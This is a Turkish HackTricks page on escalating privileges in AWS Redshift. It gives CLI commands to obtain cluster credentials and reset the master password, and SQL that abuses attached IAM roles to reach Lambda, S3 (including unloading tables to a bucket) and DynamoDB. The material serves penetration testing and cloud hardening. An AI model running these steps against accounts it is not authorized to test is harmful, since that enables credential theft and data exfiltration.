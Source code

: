 # AWS - Redshift Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Redshift

RDS hakkında daha fazla bilgi için:

{% content-ref url="../aws-hizmetleri/aws-veritabanları/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-hizmetleri/aws-veritabanları/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Bu izinlerle **tüm küme bilgilerini** (ad ve küme kullanıcı adı dahil) alabilir ve erişmek için **kimlik bilgilerini** alabilirsiniz:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potansiyel Etki:** Veritabanlarının içinde hassas bilgiler bulunabilir.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Bu izinlerle **tüm kümelerin bilgilerini alabilir** ve **erişmek için kimlik bilgilerini alabilirsiniz**.\
Unutmayın ki postgres kullanıcısı, kimlik bilgilerini almak için kullanılan IAM kimliğinin sahip olduğu izinlere sahip olacaktır.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potansiyel Etki:** Veritabanlarında hassas bilgiler bulunabilir.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

AWS CLI üzerinden iç postgres (redshift) kullanıcısının **ana parolasını değiştirmek** mümkündür (Bu izinlere ihtiyacınız olduğunu düşünüyorum, ancak henüz bunları test etmedim):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potansiyel Etki:** Veritabanları içinde hassas bilgiler bulunabilir.

## Harici Hizmetlere Erişim

{% hint style="warning" %}
Tüm aşağıdaki kaynaklara erişmek için, **kullanılacak rolü belirtmeniz gerekecektir**. Bir Redshift kümesi, **ARN'yi bildiğiniz takdirde kullanabileceğiniz bir AWS rolü listesi atanmış olabilir** veya varsayılan olarak atananı kullanmak için sadece "**default**" olarak ayarlayabilirsiniz.

Ayrıca, Redshift [**burada açıklandığı gibi**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), rolleri birleştirmenize (ilk rol ikincisini varsayabildiği sürece) izin verir ve daha fazla erişim elde etmek için sadece **virgülle** ayırarak bunları birleştirebilirsiniz: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdalar

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) adresinde açıklandığı gibi, redshift'ten bir lambda fonksiyonunu çağırmak mümkündür. Bunun için şu şekilde bir şey yapabilirsiniz:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) adresinde açıklandığı gibi, S3 kovalarına **okuma ve yazma işlemleri** yapmak mümkündür:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) adresinde açıklandığı gibi, dynamodb'den veri almak mümkündür:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Verileri sağlayan Amazon DynamoDB tablosu, AWS Bölgesi'nde kümenizle aynı şekilde oluşturulmalıdır, ancak Amazon DynamoDB tablosunun bulunduğu AWS Bölgesini belirtmek için [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) seçeneğini kullanabilirsiniz.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) adresini kontrol edin.

## Referanslar

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
